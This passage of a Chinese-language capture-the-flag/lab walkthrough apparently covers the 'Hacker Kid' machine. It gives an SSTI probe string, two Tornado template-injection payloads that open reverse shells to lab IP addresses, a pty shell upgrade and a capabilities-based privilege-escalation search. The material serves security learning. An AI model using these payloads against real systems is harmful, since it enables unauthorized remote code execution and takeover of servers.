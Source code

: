       > https://www.cnblogs.com/bmjoker/p/13508538.html

      参考别人的文章，尝试注入：
      ![image-20240225164141170](Medium_Hacker_Kid/image-20240225164141170.png)
      成功！
      补充一个测试各种框架的 SSTI 的 Payload，只要报错就说明有利用点：
      `{{1+abcxyz}}${1+abcxyz}<%1+abcxyz%>[1+abcxyz]`

22. 输入反弹 Shell 的 payload（需要 url 编码后）：
      `{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/10.0.2.7/4444 0>&1"')}}`
      或者（用封号代替换行）：`{% import socket,subprocess,os %}{{s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.0.101', 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i'])}}`
      有关 Tornado 的模板语法：

      > https://tornado-zh.readthedocs.io/zh/latest/guide/templates.html

23. 获取 Shell 后，再增加一下交互性：
      `python3 -c "import pty; pty.spawn('/bin/bash')"`

24. 通过 Capabilities 提权，详细内容如下：

      > https://www.cnblogs.com/f-carey/p/16026088.html
      >
      > https://man7.org/linux/man-pages/man7/capabilities.7.html

      查询不当 Capabilities 权限的命令：
      `/sbin/getcap -r / 2>/dev/null`
      突破口：
      ![image-20240225173325415](Medium_Hacker_Kid/image-20240225173325415.png)
      提权教程（需要梯子)：

      > https://www.cnblogs.com/zlgxzswjy/p/15185591.html
      >
      > https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc

25. 根据教程，最终通过 NC 连接即可：

## 2. 总结

1. 针对 53 端口和 DNS 相关知识的补充。
2. XXE 漏洞
3. 遇到框架考虑 SSTI 模块注入
4. Capabilities 提权